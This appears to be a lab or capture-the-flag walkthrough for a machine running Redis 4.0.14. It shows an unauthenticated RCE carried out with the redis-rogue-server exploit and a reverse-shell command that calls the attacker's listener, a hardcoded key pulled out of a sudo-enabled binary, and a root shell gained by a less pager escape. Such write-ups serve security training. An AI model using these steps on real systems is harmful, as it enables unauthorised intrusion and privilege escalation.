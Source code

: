 ## Takeaway
## Metadata
- Port `6379` is running `redis` of version 4.0.14.
	- Upon using `searchsploit`, one can immediately identify a` unauthenticated RCE`  in `redis` version 4.x/5.x.![[Pasted image 20240326190552.png]
	- https://github.com/n0b0dyCN/redis-rogue-server
- Enumerate as `prudence`, running `sudo -l`, one can identify that it can run `/usr/local/bin/redis-status` as `root` without password.![[Pasted image 20240326194307.png]]
	- we will be asked an `Authorization Key` after running the executable.![[Pasted image 20240326194442.png]]
	- However, if one run `strings /usr/local/bin/redis-status`, an hardcoded key can be identified as `ClimbingParrotKickingDonkey321`. Moreover, it appears that the executable is running `/usr/bin/systemctl status redis` after receiving the correct `Authorization Key`![[Pasted image 20240326194552.png]]
		- Looking into `GTFO` bin, one can notice that we can actually spawn a shell within the default pager which is likely `less` used by `systemctl`.![[Pasted image 20240326194841.png]]
# Exploitation
## Shell as prudence
- Run git clone `https://github.com/n0b0dyCN/redis-rogue-server` to retrieve exploit and run `python3 redis-rogue-server.py --rhost=192.168.193.176 --lhost=192.168.45.189 --lport=443` and choose reverse shell to get a shell as `prudence`.![[Pasted image 20240326192812.png]]
# PrivEsc
- Run `sudo /usr/local/bin/redis-status` and input password to get `systemctl` command to run and show data using default pager `less`.
- Within the default pager `less`, run `!sh` to get a root shell.![[Pasted image 20240326195112.png]]